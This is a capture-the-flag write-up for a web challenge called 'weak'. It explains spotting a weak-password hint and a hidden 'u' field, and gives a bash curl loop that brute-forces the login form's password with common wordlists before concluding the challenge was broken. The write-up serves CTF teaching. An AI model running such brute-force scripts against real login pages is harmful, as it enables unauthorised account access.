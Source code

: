 ## weak

**Category:** Web

**Points:** 250

**Solves:** --

**Description:**

(No description)

### Write-up

so there's some TODO comments inside the generated page source that reads : 

```
<!--
TODO: Change admin password. Currently using very weak password.
-->
```

This gives a strong suggestion about the challange needed to be bruteforced or better yet since it's weak passwords,
we can utilize a list of known weak passwords from the net. so, it's a wordlist attack.

The 2nd thing to note that there it a hiddden form with the name "**u**" in the page source that is placed outside of the <form> tag so it's not
included in the request. Let's just assume the author wants us to include the hidden parameter in the request and change the "**u**" value into
"**admin**" instead (assuming the "u" stands for user and the author mentioned ```STOP! ONLY admin can view restricted info (^^,)``` at the front page)

```
<input type="text" name="p" value="" /><input type="submit" value="Check" />
</form><input type="hidden" name="u" value="user" />
```

---

Next just write a simple script to iterate a list of weak passwords and feed it into "**p**"

The breakdown is quite straightworward :

send a POST request to `http://<ip>:<port>/` with parameters "**p**=$wordlist_line" and "**u**=admin" and hash the response body.
All the response body should return the same if the fail but if we hit the jackpot the response body will return the key and the hash will change.

```bash
while IFS='' read -r line || [[ -n "$line" ]]; do
curl -s --user-agent Mozilla/5.0  --data "p=$line&u=admin" http://192.168.0.10:6553/ | sha1sum | cut -d" " -f1 > hash.txt
myhash=$(cat hash.txt);
if [ "$myhash" == "bf2d5e289c65a443ac879b045699b3fa6aee0f4b" ]; then
echo "Testing : $line"
else
echo "YEAH : $line"
exit
fi
done < "$1"
```

---

Run that and feed it with danielmiessler seclist collection of 10k most common password or 500 worst password and you should be golden... Right????

But unfortunately this is not the case, we didn't solve this even after throwing rockyou at it... so what's the catch?

The catch is the simple fact that the question itself is buggy and broken. After the competition, we *ehem* managed to acquire the source code and noticed that there is a check on a parameter named "**password**" before the rest of the parameter is being checked.


Unfortunately on the generated HTML of the index page there is no "**password**" parameter present thus it making it impossible for anyone to solve the question that the time.

One could argue that you need to assume there is some unknown paramters, but just consider the exponential growth in entropy and keyspace here if we need to bruteforce both the actual password and a random non-existant parameter name at the same time...

So we conclude that the question is broken in the first place. Check out the [source code & judge for yourself](https://github.com/najashark/KICTM-2017-CTF-Writeup/blob/master/web/weak/index.php)
